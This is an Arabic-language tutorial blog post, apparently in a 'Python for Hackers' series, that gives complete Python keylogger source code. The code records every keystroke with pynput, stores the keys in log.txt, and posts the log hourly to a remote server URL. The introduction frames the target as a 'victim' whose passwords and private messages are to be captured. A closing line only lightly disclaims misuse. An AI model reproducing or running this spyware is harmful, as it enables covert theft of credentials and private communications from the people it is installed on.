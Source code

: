```yaml
---

title: "Keylogger with Python in Arabic"
date: 2025-03-24
authors: "Farouk"
layout: post
categories: Python_for_Hackers
tags: [Python, Keylogger, Security, PenetrationTesting, Hacker]
direction: rtl
---
```

<script>
document.addEventListener("DOMContentLoaded", function () {
    // البحث عن العنصر الذي يحتوي على "By"
    let authorElement = document.querySelector("span em");

    // التأكد أن العنصر موجود
    if (authorElement) {
        authorElement.textContent = "Farouk"; // وضع الاسم داخل الوسم <em>
    }
});
</script>

<h2 id="كيف-تكتب-keylogger-بسيط-بالـ-python" dir="rtl"><span class="me-2"><strong>كيف تكتب Keylogger بسيط بالـ Python؟</strong></span><a href="#كيف-تكتب-keylogger-بسيط-بالـ-python" class="anchor text-muted"></a></h2>

<h3 id="-المقدمة" dir="rtl"><span class="me-2"><strong>💡 المقدمة</strong></span><a href="#-المقدمة" class="anchor text-muted"></a></h3>

<p dir="rtl">اول شي خلونا نفهم شو يعني <strong>Keylogger</strong> , ال <strong>Keylogger</strong> هو عبارة عن برنامج بسجل عندي ضغطات الكيبورد تبع الضحية وهيك بقدر اعرف الحسابات وكلمات السر او حتى الرسائل الخاصة.
واليوم رح نعمل سوا <strong>Keylogger بسيط بلغة Python</strong> ونتعرف على آلية عمله بالتفصيل.</p>

<p dir="rtl">📌 <strong>رح يغطي هذا الدرس:</strong></p>
<ul dir="rtl">
<li> كيف بتسجل ضغطات الكيبورد باستخدام مكتبة pynput </li>
<li> تخزين هالبيانات ضمن ملف </li>
<li> كيف نبعت هالملف من جهاز الضحية للسيرفر الخاص فينا </li>
<li> تشغيل برنامجنا  <strong>كبرنامج مستمر</strong> يضل شغال بال <strong>Background</strong> </li>
</ul>

---

<h3 id="-الكود-كامل-keylogger-بالبايثون" dir='rtl'><span class="me-2"><strong> الكود كامل: Keylogger بالبايثون</strong></span><a href="#-الكود-كامل-keylogger-بالبايثون" class="anchor text-muted"></a></h3>

```python
import requests
import threading
from pynput.keyboard import Key, Listener

# رابط السيرفر لاستقبال البيانات
SERVER_URL = "http://your-server.com/logs"  # استبدله برابط السيرفر الخاص بك

def write_to_file(key):
    """
    تخزين ضغطات المفاتيح في ملف log.txt
    """
    try:
        keydata = str(key).replace("'", "")

        # التعامل مع المفاتيح الخاصة
        if key == Key.space:
            keydata = ' '
        elif key == Key.enter:
            keydata = '\n'
        elif key in (Key.shift, Key.ctrl_l, Key.ctrl_r, Key.alt_l, Key.alt_r):
            keydata = ''  # تجاهل مفاتيح التعديل

        # حفظ المفاتيح في الملف
        with open('log.txt', 'a') as f:
            f.write(keydata)
    
    except Exception as e:
        print(f"Error: {e}")

def send_logs():
    """
    إرسال البيانات المخزنة إلى السيرفر كل ساعة
    """
    try:
        with open("log.txt", "r") as f:
            logs = f.read()
        
        if logs.strip():  # الإرسال فقط إذا كان هناك بيانات
            response = requests.post(SERVER_URL, data={"logs": logs})
            if response.status_code == 200:
                print("Logs sent successfully!")
                open("log.txt", "w").close()  # مسح الملف بعد الإرسال
            else:
                print(f"Failed to send logs, status code: {response.status_code}")
    
    except Exception as e:
        print(f"Error sending logs: {e}")

    # جدولة إعادة التنفيذ كل ساعة
    threading.Timer(3600, send_logs).start()

# بدء الإرسال التلقائي
send_logs()

# تشغيل الـ Keylogger
with Listener(on_press=write_to_file) as listener:
    listener.join()
```

---

<h3 id="تحليل-الكود" dir='rtl'><span class="me-2"><strong>تحليل الكود</strong></span><a href="#تحليل-الكود" class="anchor text-muted"></a></h3>

<p dir="rtl">📌 <strong>1. تسجيل ضغطات المفاتيح:</strong></p>
<ul dir="rtl">
  <li>مكتبة الpynput بتساعدني لتسجيل كل <strong>ضغطة زر</strong> عالكيبورد وتحليلها.</li>
  <li>المفاتيح الخاصة (مثل Shift و Enter) منتعامل معها بطريقة مناسبة.</li>
  <li><strong>منحفظ كل ضغطة عالكيبورد</strong> بملف log.txt.</li>
</ul>

<p dir="rtl">📌 <strong>2. إرسال البيانات إلى سيرفر:</strong></p>
<ul dir="rtl">
  <li>منقرأ محتوى ملف log.txt كل <strong>ساعة</strong>.</li>
  <li>إذا كان عندي بيانات، فبيبعتلي ياها ل  <strong>السيرفر</strong> عبر requests.post().</li>
  <li>بعد ما يتم الارسال بقلو <strong>يمسحلي الملف</strong> حتى مايصير عندي تكرار بالإرسال.</li>
</ul>

<p dir="rtl">📌 <strong>3. تشغيل الكي لوجر بالخلفية:</strong></p>
<ul dir="rtl">
  <li>استخدمت threading.Timer حتى يضل عم يرسل البيانات بشكل دوري.</li>
  <li>Listener بضل شغال حتى حدا <strong>يوقف البرنامج يدويًا</strong>.</li>
</ul>

<hr />


---

<h3 id="الخاتمة" dir="rtl"><span class="me-2"><strong>الخاتمة</strong></span><a href="#الخاتمة" class="anchor text-muted"></a></h3>

<p dir='rtl'>هيك صار عندك <strong>Keylogger بسيط وفعال</strong> وهاد الشي حتى تفهم آلية عمله ويكون عندك الفهم البرمجي لطريقة عمله, فلا تستخدموا بطريقة غلط🌚.</p>

<p dir='rtl'><strong>وهلق خبرني شو رأيك بالكود؟ وهل عندك أفكار لتطويره؟🤔</strong></p>

